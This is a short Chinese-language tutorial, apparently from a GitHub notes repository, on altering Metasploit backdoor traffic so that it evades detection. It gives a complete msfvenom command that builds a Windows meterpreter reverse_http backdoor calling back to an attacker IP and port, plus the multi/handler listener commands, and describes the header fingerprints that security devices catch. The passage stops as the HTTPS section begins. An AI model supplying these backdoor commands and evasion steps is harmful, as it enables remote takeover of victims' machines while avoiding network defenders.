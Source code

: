 ## MSF-流量特征修改

msf 生成的 https 后门**的确是加密**的，然而仍然有一些**指纹特征**，比如请求头的 UA 啥的等等，我们仍然需要自己生成证书来躲避检测

### msf -http 后门流量

http 是明文传输，很容易被发现。先生成后门

```
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.10.8 LPORT=5577 -f exe -o http.exe
```

再监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 5577
run
```

kali 抓包看看，以下都是**头部特征**，特征被设备捕获到，可以判断为 msf 后门

<img src=".\图片\Snipaste_2023-01-06_11-20-24.png" alt="Snipaste_2023-01-06_11-20-24" style="zoom:60%;" />

### msf -https 后门流量

当我们访问一个 https 网站时，可以看到相关证书，比如 https://www.baidu.com
